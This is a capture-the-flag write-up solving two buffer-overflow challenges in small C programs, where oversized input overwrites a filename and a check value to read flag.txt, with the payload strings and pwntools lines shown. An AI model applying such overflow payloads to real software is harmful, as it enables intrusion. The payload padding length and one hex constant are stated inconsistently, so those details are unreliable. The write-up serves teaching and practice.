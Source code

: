# Buffer Overflow CTF5

This CTF includes two challenges. In each of them, we exploited a program with a buffer overflow vulnerability in order to access a file named "flag.txt".

## 1st flag

#### Source Code

The `main.c` script is simple:

- Create two character arrays, `meme_file` and `buffer`, with sizes 8 and 32, respectively.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
```

- Read 40 characters of user input and store them in the `buffer`.

```c
scanf("%40s", &buffer);
```

- Open the file with the variable `meme_file`.

```c
FILE *fd = fopen(meme_file,"r");
```

- Attempts to read from the file, if it was found, and stores the content on the `buffer`. Prints `buffer`.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

### Obtaining the flag

Before executing the python script, we have to create a payload to cause the buffer overflow. Since our input is limited to the command line, it would have to be a string with the following restrictions:

* Because `buffer` is 32 bytes, the length of the string needs to be bigger than that to create an overflow.
* The string has to contain the file name `flag.txt` immediately after the 32nd character in order to overwrite the `meme_file` variable.

We used the following string:
```python
"justtryingtocauseabufferoverlowflag.txt"
```

We modified the script to send it to the program.

```python
r.sendline(b"justtryingtocauseabufferoverlowflag.txt")
```
Running our script, we got the following output:

![Alt text](../images/image-5-1.png)


## 2nd flag

#### Source Code

`main.c` is really similar to the 1st challenge.

- Initialized three arrays: `meme_file` (9 bytes), `val` (4 bytes), and `buffer` (32 bytes).

```c
char meme_file[9] = "mem.txt\0\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[32];
```

Because `buffer` is next to `val` in memory and `meme_file` is next to `val`, we have to overwrite `val` to overwrite `meme_file`.

- Read 45 characters of input and store them.

```c
scanf("%45s", &buffer);
```

- Convert `val` into an integer pointer and compare the result with `0xfefc2324`.

```c
if(*(int*)val == 0xfefc2324) {
    ...
}
```

- If the previous values are equal, open the file stored in the `meme_file` variable.

```c
FILE *fd = fopen(meme_file,"r");
```

- Attempts to read the file, if it is found, and prints it's content.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

We had to overflow `buffer` to overwrite the contents of `meme_file`, as well overwriting `val`, as the code could only be executed when `val` was equal to `0xfefc2324`.

### Obtaining the flag

We used the same python script for this challenge.

The string restrictions this time are as follows:

- The size of the string has to be bigger than 32 bytes so we could overflow the `buffer`.
- The bytes in the positions 32 to 36  have to contain the characters that are equal to `0xfcfe2324`.

```python
string[32:36] = "\x24\x23\xfc\xfe"
```

We used the following string:

```python
"justtryingtocauseabufferoverflow\x24\x23\xfc\xfeflag.txt"
```

Copying the string to the Python script so that it would be sent to the program.

```python
r.sendline(b"justtryingtocauseabufferoverflow\x24\x23\xfc\xfeflag.txt")
```

Executing the exploit gave us the following output:

![Alt text](../images/image-5-2.png)

